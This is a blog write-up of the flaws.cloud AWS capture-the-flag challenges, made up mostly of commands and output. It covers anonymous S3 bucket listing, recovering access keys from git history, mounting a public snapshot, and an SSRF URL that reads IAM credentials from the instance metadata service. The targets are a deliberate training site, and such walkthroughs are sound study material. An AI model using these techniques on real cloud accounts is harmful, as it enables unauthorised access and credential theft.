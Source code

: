 +++
title = "flaws.cloud Writeup"
date = 2018-08-08T00:41:06+01:00
draft = false
author = "Rob W"
description = "Steps and commands used to solve the [flaws.cloud]http://flaws.cloud) challenges."
+++

In this post I have inserted the commands and some information used to complete the flaws.cloud challenges.
<!--more-->

## Level1
Find the region of s3 bucket:

```
dig +nocmd flaws.cloud any +multiline +noall +answer
flaws.cloud.		600 IN NS ns-1061.awsdns-04.org.
flaws.cloud.		600 IN NS ns-1890.awsdns-44.co.uk.
flaws.cloud.		600 IN NS ns-448.awsdns-56.com.
flaws.cloud.		600 IN NS ns-966.awsdns-56.net.
flaws.cloud.		600 IN SOA ns-1890.awsdns-44.co.uk. awsdns-hostmaster.amazon.com. (
				1          ; serial
				7200       ; refresh (2 hours)
				900        ; retry (15 minutes)
				1209600    ; expire (2 weeks)
				86400      ; minimum (1 day)
				)
flaws.cloud.		5 IN A	54.231.177.35

nslookup 52.218.240.179
179.240.218.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.
```

Search for readable files in the s3 bucket.

```
aws s3 ls flaws.cloud --region us-west-2 --no-sign-request

2017-03-14 03:00:38       2575 hint1.html
2017-03-03 04:05:17       1707 hint2.html
2017-03-03 04:05:11       1101 hint3.html
2018-07-10 17:47:16       3082 index.html
2018-07-10 17:47:16      15979 logo.png
2017-02-27 01:59:28         46 robots.txt
2017-02-27 01:59:30       1051 secret-dd02c7c.html
```

## Level2

Create an IAM user and configure a profile with the creds.

```
aws configure --profile pwners
AWS Access Key ID [None]: xxxxxxxxxx
AWS Secret Access Key [None]: xxxxxxxxxxx
Default region name [None]: 
Default output format [None]: 
```

Use the new profile to list the files of the level2 domain.

```
aws s3 ls --profile pwners s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/
2017-02-27 02:02:15      80751 everyone.png
2017-03-03 03:47:17       1433 hint1.html
2017-02-27 02:04:39       1035 hint2.html
2017-02-27 02:02:14       2786 index.html
2017-02-27 02:02:14         26 robots.txt
2017-02-27 02:02:15       1051 secret-e4443fc.html
```

## Level3

List the files in the bucket. It has the same issue as the previous, so you can just use your own AWS creds.

```
aws s3 ls --profile narc s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/
                           PRE .git/
2017-02-27 00:14:33     123637 authenticated_users.png
2017-02-27 00:14:34       1552 hint1.html
2017-02-27 00:14:34       1426 hint2.html
2017-02-27 00:14:35       1247 hint3.html
2017-02-27 00:14:33       1035 hint4.html
2017-02-27 02:05:16       1703 index.html
2017-02-27 00:14:33         26 robots.txt
```

Download all the files from the bucket using aws s3 sync.
```
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --profile narc
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/HEAD to .git/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/index to .git/index
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/HEAD to .git/logs/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/robots.txt to ./robots.txt
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint2.html to ./hint2.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/index.html to ./index.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint4.html to ./hint4.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint3.html to ./hint3.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html to ./hint1.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png to ./authenticated_users.png
```

We can see that there is a .git file. Let us look and see what files and changes there are.

```
git log
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

Use git checkout to get back to the original commit. We can see what stuff was accidentally left in the repo.

```
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
Note: checking out 'f52ec03b227ea6094b04e43f475fb0126edb5a61'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by performing another checkout.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -b with the checkout command again. Example:

  git checkout -b <new-branch-name>

HEAD is now at f52ec03 first commit
root@pentest-rw:~/blah# ls
access_keys.txt          hint1.html  hint3.html  index.html
authenticated_users.png  hint2.html  hint4.html  robots.txt
root@pentest-rw:~/blah# cat access_keys.txt 
access_key xxxxxxxxx
secret_access_key xxxxxxxx
```
Now use the previous method to create a new profile with the access keys. Find all available buckets now.

```
aws s3 ls --profile flaws
2017-02-12 21:31:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2017-05-29 17:34:53 config-bucket-975426262029
2017-02-12 20:03:24 flaws-logs
2017-02-05 03:40:07 flaws.cloud
2017-02-24 01:54:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 18:15:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26 18:16:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-26 19:44:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-26 19:47:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-26 20:06:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```

## Level4

From this one is just a list of commands because I don't want to go through all the steps manually again right now. :)

```
aws --profile flaws sts get-caller-identity (get account id)
aws --profile flaws  ec2 describe-snapshots --owner-id 975426262029 (get snapshots)
aws --profile YOUR_ACCOUNT ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89 (create a volume by using the snapshot)
ssh -i YOUR_KEY.pem  ubuntu@your_aws_ip
lsblk
sudo mount /dev/YOUR_VOLUME/1 /mnt

Now search for shit.
```

## Level5

The only interesting bit from this level.

```
http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
```


